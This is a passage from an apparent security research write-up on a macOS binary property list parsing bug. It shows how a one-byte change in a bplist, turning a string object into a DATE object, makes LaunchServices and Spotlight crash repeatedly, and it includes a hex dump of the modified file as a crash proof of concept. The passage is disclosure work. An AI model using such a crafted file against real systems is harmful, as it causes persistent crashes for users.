 # Crash Analysis

Generating crashes for this bug can be done programmatically or by placing a modified bplist on the system where it will automatically be parsed. In fact, one of the first signs of this bug was LSD repeatedly crashing on my system while trying to register an application with my modified property list. [Objective-See has a great blog post](https://objective-see.com/blog/blog_0x12.html) detailing application registration through LSD and the automatic parsing of property lists. The image below is Console output showing how often crashes occurred with a modified bplist on my desktop posing as a legitimate 'Info.plist'. Also note the User-level and System-level processes crashing.

<img src="/assets/images/Console.png" alt="">

Creating malicious bplists can be done by modifying a single byte to change an ASCII string object (type 0x5X) to another object type such as DATE (type 0x33). An example modified bplist is below. 

	00000000: 6270 6c69 7374 3030 d401 0203 0405 060a  bplist00........
	00000010: 0b5f 1014 4e53 5374 6f72 7962 6f61 7264  ._..NSStoryboard
	00000020: 4d61 696e 4d65 6e75 5f10 254e 5356 6965  MainMenu_.%NSVie
	00000030: 7743 6f6e 7472 6f6c 6c65 7249 6465 6e74  wControllerIdent
	00000040: 6966 6965 7273 546f 4e69 624e 616d 6573  ifiersToNibNames
	00000050: 5f10 134e 5353 746f 7279 626f 6172 6456  _..NSStoryboardV
	00000060: 6572 7369 6f6e 5f10 224e 5356 6965 7743  ersion_."NSViewC
	00000070: 6f6e 7472 6f6c 6c65 7249 6465 6e74 6966  ontrollerIdentif
	00000080: 6965 7273 546f 5555 4944 7358 4d61 696e  iersToUUIDsXMain
	00000090: 4d65 6e75 d207 0508 0933 1013 7369 6d75  Menu.....3..simu
	000000a0: 6c61 746f 724d 6169 6e57 696e 646f 775f  latorMainWindow_
	000000b0: 1013 7369 6d75 6c61 746f 724d 6169 6e57  ..simulatorMainW
	000000c0: 696e 646f 7758 4d61 696e 4d65 6e75 1001  indowXMainMenu..

This small one byte change can now be used to cause havoc on a MacOS system and presumably iOS although that platform was not tested during this research. This approach also impacts multiple databases including Spotlight's which becomes tainted with this malicious Info.plist and repeatedly causes crashes even after reboot.

### Getting to the root cause
